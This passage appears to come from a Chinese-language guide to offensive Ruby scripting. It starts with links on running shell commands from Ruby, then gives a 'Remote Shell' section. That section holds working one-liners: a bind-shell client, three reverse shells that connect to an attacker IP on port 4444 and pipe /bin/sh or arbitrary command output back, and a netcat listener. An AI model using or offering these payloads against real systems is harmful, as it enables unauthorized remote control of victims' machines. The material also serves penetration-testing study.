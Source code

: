 * * *

+   [Ruby | 执行系统命令](http://king-sabri.net/?p=2553)

+   [从 Ruby 运行命令的 5 种方式](http://mentalized.net/journal/2010/03/08/5-ways-to-run-commands-from-ruby/)

+   [在 Ruby 中运行 Shell 命令的 6 种方法](http://tech.natemurray.com/2007/03/ruby-shell-commands.html)

+   [如何选择正确的方式](http://stackoverflow.com/a/4413/967283)

+   [在 ruby 中执行命令](http://blog.bigbinary.com/2012/10/18/backtick-system-exec-in-ruby.html)

# 远程 Shell

# 远程 Shell

远程 shell 意味着与目标系统命令行(shell)的正向或反向连接。

**注意：** 对于 Windows 系统，请将 "/bin/sh" 替换为 "cmd.exe"

## 连接到绑定 shell

从终端

```
ruby -rsocket -e's=TCPSocket.new("VictimIP",4444);loop do;cmd=gets.chomp;s.puts cmd;s.close if cmd=="exit";puts s.recv(1000000);end' 
```

因为`192.168.0.15`是受害者 IP

## 反向 shell

攻击者正在端口 4444 上监听 `nc -lvp 4444`。现在在受害机器上运行

```
ruby -rsocket -e's=TCPSocket.open("192.168.0.13",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)' 
```

如果你不想依赖于 `/bin/sh`

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end' 
```

如果你不想依赖于 `cmd.exe`

```
ruby -rsocket -e 'c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end' 
```

因为`192.168.0.13`是攻击者 IP
